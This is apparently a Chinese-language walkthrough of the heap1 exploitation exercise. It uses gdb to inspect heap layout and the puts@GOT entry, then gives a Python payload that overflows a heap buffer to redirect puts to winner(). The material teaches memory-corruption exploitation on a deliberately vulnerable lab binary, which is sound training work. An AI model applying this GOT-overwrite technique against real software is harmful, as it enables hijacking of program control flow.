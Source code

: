 在leave处（0x08048566）打断点，运行程序，查看堆上内存。

```shell
(gdb) b *0x08048566
(gdb) r AAAABBBB 11112222
(gdb) x/64wx 0x0804a000 # 查看堆顶往下64DWORD
```

<img src=".\heap1-analysis-7.png" style="zoom:67%;" />

得到i1->name与i2的*name间隔为5DWORD。

查看`printf()`对应的系统调用puts的具体步骤。

```shell
(gdb) disas 0x80483cc
```

<img src=".\heap1-analysis-8.png" style="zoom:67%;" />

可以看到在puts中再次发生了跳转。查看跳转地址指向的内容：

```shell
(gdb) x *0x8049774
```

<img src=".\heap1-analysis-9.png" style="zoom:67%;" />

可以看到指向的是`_IO_puts()`函数。

所以可以将*somewhere设置为0x08049774。

由此构造攻击脚本：

```python
# heap1.py
arg1_padding = "AAAABBBBCCCCDDDDEEEE"
ret = "\x74\x97\x04\x08 " # puts@GOT跳转地址（最后有个空格）
arg2 = "\x94\x84\x04\x08" # winner()入口地址
print arg1_padding + ret + arg2
```
